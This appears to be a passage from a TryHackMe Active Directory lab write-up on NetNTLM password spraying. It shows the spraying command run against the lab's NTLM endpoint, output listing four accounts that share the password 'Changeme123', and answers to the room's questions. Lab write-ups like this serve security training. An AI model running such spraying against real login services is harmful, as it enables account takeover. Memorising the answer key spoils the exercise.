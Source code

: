 ```php   
[thm@thm]$ python ntlm_passwordspray.py -u usernames.txt -f za.tryhackme.com -p Changeme123 -a http://ntlmauth.za.tryhackme.com/
[*] Starting passwords spray attack using the following password: Changeme123
[-] Failed login with Username: anthony.reynolds
[-] Failed login with Username: henry.taylor
[...]
[+] Valid credential pair found! Username: [...] Password: Changeme123
[-] Failed login with Username: louise.talbot
[...]
[*] Password spray attack completed, [X] valid credential pairs found
```

```php
./ntlm_passwordspray.py -u usernames.txt -f za.tryhackme.com -p Changeme123 -a http://ntlmauth.za.tryhackme.com/
```

![[img/Pasted image 20241010062251.png]]

```php
[*] Starting passwords spray attack using the following password: Changeme123
[+] Valid credential pair found! Username: hollie.powell Password: Changeme123
[+] Valid credential pair found! Username: heather.smith Password: Changeme123
[+] Valid credential pair found! Username: gordon.stevens Password: Changeme123
[+] Valid credential pair found! Username: georgina.edwards Password: Changeme123
[*] Password spray attack completed, 4 valid credential pairs found
```

- hollie.powell
- heather.smith
- gordon.stevens
- georgina.edwards

Using a combination of OSINT and NetNTLM password spraying, we now have our first valid credentials pairs that could be used to enumerate AD further!  

Answer the questions below

1. What is the name of the challenge-response authentication mechanism that uses NTLM?  

`NetNTLM`

2. What is the username of the third valid credential pair found by the password spraying script?  

`gordon.stevens`

3. How many valid credentials pairs were found by the password spraying script?  

`4`

4. What is the message displayed by the web application when authenticating with a valid credential pair?

`Hello World`

---
# LDAP Bind Credentials
